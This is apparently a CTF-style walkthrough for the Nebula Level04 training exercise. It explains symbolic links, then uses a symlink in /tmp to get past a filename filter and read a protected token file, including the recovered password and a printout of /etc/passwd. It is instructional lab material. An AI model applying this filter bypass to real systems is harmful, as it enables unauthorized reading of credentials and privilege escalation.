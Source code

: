 ## Symbolic Links
**What is this?**

In [computing](https://en.wikipedia.org/wiki/Computing "Computing"), a **symbolic link** (also **symlink** or **soft link**) is a term for any file that contains a reference to another file or directory in the form of an absolute or relative [path](https://en.wikipedia.org/wiki/Path_(computing) "Path (computing)") and that affects pathname resolution.

**Symlink in POSIX & Unix like OS** ( [ln MAN Page](http://man7.org/linux/man-pages/man1/ln.1.html) )
- Hard Links -> do not link on different volumes and file systems, always refer to an existing file
- Soft Links ( symlink ) -> link any file or directory irrespective of volumes ,may contain an arbitrary path that does not point to anything

```
#Hard Link
ln target_path link_path
#Soft Link
ln -s target_path link_path
```
**Symlink Example**  
Create two files in a directory
```
echo "This is a" > a
echo "This is b" > b
```
Symlink 
```
cd /tmp
ln -s /target_directory lol

sh-4.2$ ls -l lol
lrwxrwxrwx 1 user  group  12 2020-05-09 13:41 lol -> /target_directory

sh-4.2$ cd lol;cat a;cat b
This is a
This is b
```
**Nebula Level04** [ [Description](https://exploit-exercises.lains.space/nebula/level04/) ]  
C Code
```
int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}

```
- We have to read token file which contains flag04's password
- If our arguement contain "token", the programs will call exit
- We can use symlink in this situation

Test Running Program
```
# token test
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'

# other test
level04@nebula:/home/flag04$ ./flag04 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
```
Symlink between files
```
ln -s target_file link_file
cd /tmp
ln -s /home/flag04/token abcd
```
Result
```
level04@nebula:/tmp$ ls -l abcd
lrwxrwxrwx 1 level04 level04 18 2020-05-09 14:11 abcd -> /home/flag04/token
level04@nebula:/tmp$ /home/flag04/flag04 /tmp/abcd
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/tmp$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
```


**Reference**  
[https://en.wikipedia.org/wiki/Symbolic_link](https://en.wikipedia.org/wiki/Symbolic_link)  
[http://man7.org/linux/man-pages/man1/ln.1.html](http://man7.org/linux/man-pages/man1/ln.1.html)
